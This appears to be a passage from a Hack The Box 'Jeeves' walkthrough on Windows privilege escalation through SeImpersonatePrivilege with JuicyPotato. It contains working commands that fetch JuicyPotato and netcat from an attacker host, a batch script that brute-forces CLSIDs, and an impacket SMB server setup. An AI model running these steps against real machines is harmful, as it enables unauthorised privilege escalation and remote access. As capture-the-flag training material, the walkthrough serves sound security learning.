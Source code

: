 ## SeImpersonatePrivilege privilege escalation

Download JuicyPotato and netcat binaries:

- https://github.com/ohpe/juicy-potato
- [http://ohpe.it/juicy-potato/](http://ohpe.it/juicy-potato/)

```powershell
PS C:\Users\kohsuke\downloads> Invoke-WebRequest -Uri 10.10.14.14/JP_x64.exe -OutFile JP.exe
PS C:\Users\kohsuke\downloads> Invoke-WebRequest -Uri 10.10.14.14/nc.exe -OutFile nc.exe
```

Extract valid CLSID:

```powershell
PS C:\Users\kohsuke\download> New-PSDrive -Name HKCR -PSProvider Registry -Root HKEY_CLASSES_ROOT

WARNING: column "CurrentLocation" does not fit into the display and was removed
.

Name           Used (GB)     Free (GB) Provider      Root                      
----           ---------     --------- --------      ----                      
HKCR                                   Registry      HKEY_CLASSES_ROOT

PS C:\Users\kohsuke\download> $CLSID = Get-ItemProperty HKCR:\clsid\* | select-object AppID,@{N='CLSID'; E={$_.pschildname}} | where-object {$_.appid -ne $null}
PS C:\wamp\www\PHP\spoiler\fileManager\collectives\DG0\custom-uploads> echo $CLSID > CLSID.list

# Download the file locally and "clean it"
$ awk '{print $2}' CLSID.list | tr -d '\000' > CLSID_only.list
```

Testing valid CLSIDs:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Jeeves/exploit]
└─$ cat test_clsid.bat
@echo off
:: Starting port, you can change it
set /a port=10000
SETLOCAL ENABLEDELAYEDEXPANSION

FOR /F %%i IN (CLSID_only.list) DO (
   echo %%i !port!
   .\JP.exe -z -l !port! -c %%i >> result.log
   set RET=!ERRORLEVEL!
   :: echo !RET!
   if "!RET!" == "1"  set /a port=port+1
)

┌──(kali㉿kali)-[~/…/HTB/box/Jeeves/exploit]
└─$ ls    
CLSID.list  CLSID_only.list  revshell.ps1  test_clsid.bat
          
┌──(kali㉿kali)-[~/…/HTB/box/Jeeves/exploit]
└─$ sudo impacket-smbserver kali . -smb2support             
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
```
